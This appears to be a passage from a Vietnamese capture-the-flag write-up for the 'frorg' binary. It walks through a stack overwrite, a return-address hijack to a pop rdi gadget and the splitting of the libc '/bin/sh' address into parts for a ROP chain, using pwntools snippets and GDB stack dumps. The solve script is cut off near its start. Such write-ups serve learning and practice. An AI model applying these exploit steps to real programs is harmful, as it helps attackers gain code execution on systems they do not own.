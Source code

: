 - `0x0461616161` như nó ở trên nếu ghi đè giá trị vòng lặp nó sẽ lặp không đúng, nên ta sẽ phải có byte `0x4` để trả lại giá trị cho nó
- Trước lúc ghi đè

```
0x007ffe213b4b50│+0x0030: 0x6161616161616161
0x007ffe213b4b58│+0x0038: 0x00000003d0090ad0
0x007ffe213b4b60│+0x0040: 0x0000000000000001     ← $rbp
```

- Sau khi ghi đè

```
0x007ffd08da7f90│+0x0030: 0x6161616161616161
0x007ffd08da7f98│+0x0038: 0x0000000561616161
0x007ffd08da7fa0│+0x0040: 0x00000000006161 ("aa"?)       ← $rbp
```

### overwrite rip

```python
sa(b"name: \n", b"\0" * 6 + p32(0x4011e5))
```

- `0x4011e5` là giá trị củ pop rdi, ban đầu tính nhảy vào hàm pop rdi nhưng lằng nhằng quá nên ra lấy gadget, ta ghi đè được như này

```
0x007ffd08da7fa0│+0x0040: 0x00000000006161 ("aa"?)       ← $rbp
0x007ffd08da7fa8│+0x0048: 0x00007fb3004011e5
```

```python
sa(b"name: \n", b"\0" * 4 + p32(0x404000) + b"\0\0")
```

- 4 byte null này để ghi đè cả địa chỉ này thành `0x007ffd08da7fa8| : 0x000000004011e5`
- Vậy chúng ta đã hiểu cách hoạt động rồi nên chỉ wu đến đây thoi =)), các lần sau cũng tương tự như vậy thôi, có thể dùng one_gadget hoặc system chắc là đều được

## Chú ý

- Chỗ này tại sao phải tách ra 2 part thì do 4 byte null nó ở trên, nên mới phải tách binsh ra 4byte và 2byte và gửi vào chứ không được `b"\0" * 4 + p64(binsh)` vì nó đã 12byte rồi

```python
binsh = next(libc.search(b'/bin/sh'))
part1 = (binsh & 0xffff)
part2 = binsh >> 16

sa(b"name: \n", b"\0" * 4 + p16(part1) + p32(part2))
```

## Kết quả

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('frorg_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
                # b*main+159
                b*main+132
```